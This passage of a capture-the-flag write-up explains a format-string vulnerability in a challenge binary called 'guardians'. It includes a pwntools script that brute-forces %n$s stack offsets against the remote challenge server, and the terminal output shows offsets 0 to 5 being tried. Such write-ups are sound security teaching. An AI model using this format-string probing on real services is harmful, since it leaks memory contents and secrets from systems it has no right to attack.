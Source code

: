 Let's look at what happens when you run that binary given to us.

{% ccb html:true terminal:true %}
<span class="meta prompt_">$ </span>./guardians 
Error, please message admins with 'infinity_error'.
{% endccb %}

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

{% ccb lang:console terminal:true %}
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
{% endccb %}

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. Here is a Python script used to brute force our way up:

{% ccb lang:py gutter1:1-11 caption:guardians.py url:gist.github.com/jktrn/abced39a897e40c196dc2eb3348e1db9 url_text:'github gist link' %}
from pwn import *
for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
{% endccb %}

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

{% ccb html:true highlight:24 terminal:true %}
<span class="meta prompt_">$ </span>python3 exp.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 0...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 1...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 2...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 3...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 4...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 5...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
